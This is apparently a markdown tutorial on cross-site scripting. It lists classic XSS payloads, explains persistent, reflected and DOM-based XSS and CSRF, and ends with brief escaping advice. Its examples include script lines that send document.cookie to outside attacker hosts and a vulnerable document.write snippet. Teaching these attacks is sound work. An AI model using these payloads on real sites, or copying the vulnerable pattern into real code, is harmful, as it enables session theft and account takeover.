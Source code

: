 # Cross-site Scripting (XSS)

XSS is a vulnerability which when presentin websites or web applications, allows malicious users (Hackers) to insert their client side code (normally JavaScript) in those web pages. When this malicious code along with the original webpage gets displayed in the web client (browsers like IE, Mozilla etc), allows Hackers to gain greater access of that page. 

Some examples:

```
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
```
```
<IMG SRC=javascript:alert('XSS')>
```
```
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
```
```
<IMG SRC=`javascript:alert("RSnake says,'XSS'")`>
```
```
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
```
```
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
```
```
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
```

### Type of XSS attacks:

#### Non-persistent

When XSS code only gets displayed in the next page to the same user and not gets saved into persistent storage like database. This type of attack is less vulnerable, because Hacker can see only their own cookies and can make modifications in their own current opened pages. The risk with these kinds of XSS holes is that it opens way for Cross Site Request Forgery CSRF. CSRF allows a hacker to place some links.

##### CSRF

Is a type of malicious exploit of a website whereby unauthorized
commands are transmitted from a user that the website trusts. This
can be done by placing some hidden links in some bad website. 

Example:

```
<img
src="http://bank.example/withdraw?account=bob<script>document.location=‘http://bad-domain.com/store_data?cookie=‘ + document.cookie;</script>
```

![alt text](images/image.png)

#### Persistent

In persistent type of XSS attack, XSS code gets saved into persistent storage like database with other data and then it is visible to other users also. One example of this kind of attacks is possible blog websites, where hacker can add their XSS code along with the comment text and if no validation or filtering is present on the server, XSS code can be successfully saved into the database. After this if anyone (other users) open the page into their browsers, XSS code can execute and can perform a variety of harmful actions. This type of attack is more vulnerable, because Hacker can steal cookies and can make modifications in the page. The risk with these kinds of attacks is any third party hacker can use this vulnerability to perform some actions on behalf of other users.

Example:
```
abc<script>window.location = "http://www.hackers.com?yid=" + document.cookie;</script>
```
![alt text](images/persistent.png)


#### Reflected Cross-Site Scripting

- Much like a CSRF attack, exploiting a Reflected XSS vulnerability usually relies on an attacker tricking their victim into clicking a malicious link which sends the victim to the vulnerable site along with a malicious payload.
- A notable distinction between the stored XSS vulnerabilities more commonly found and reflected XSS vulnerabilities, is that the malicious scripts that are used as part of the exploit are not actually stored anywhere in the database with reflected XSS vulnerabilities.
- Rather, the malicious scripts are reflected and executed once during the exploit.
- As with Stored XSS attacks, the malicious payload will be executed in the victim’s browser.
- However, with reflected XSS, the vulnerable site would immediately output (reflect) the malicious JavaScript payload, which would be executed a single time in the victim’s browser instead of being stored in the database for later execution.

### DOM (Document Object Model) Based

The Document Object Model (DOM) is a cross-platform and language-independent application programming interface that treats an HTML, XHTML, or XML document as a tree structure wherein each node is an object representing a part of the document.

![alt text](images/DOM.png)

- DOM Based XSS (or type-0 XSS) is an XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment” in the victim’s browser used by the original client side script, so that the client side code runs in an “unexpected” manner.
- This is in contrast to other XSS attacks (stored or reflected), wherein the attack payload is placed in the response page (due to a server side flaw).

Example:
```
var pos = document.URL.indexOf("name=")+5;
document.write(document.URL.substring(pos,document.URL.length));
```

### Protection

Escaping output at server:

- #1 - HTML Escape before inserting into element content
- #2 - Attribute Escape before inserting into attributes
- #3 - JavaScript Escape before inserting into JavaScript data
- values
- #4 - CSS Escape before inserting into style property values
- #5 - URL Escape before inserting into URL attributes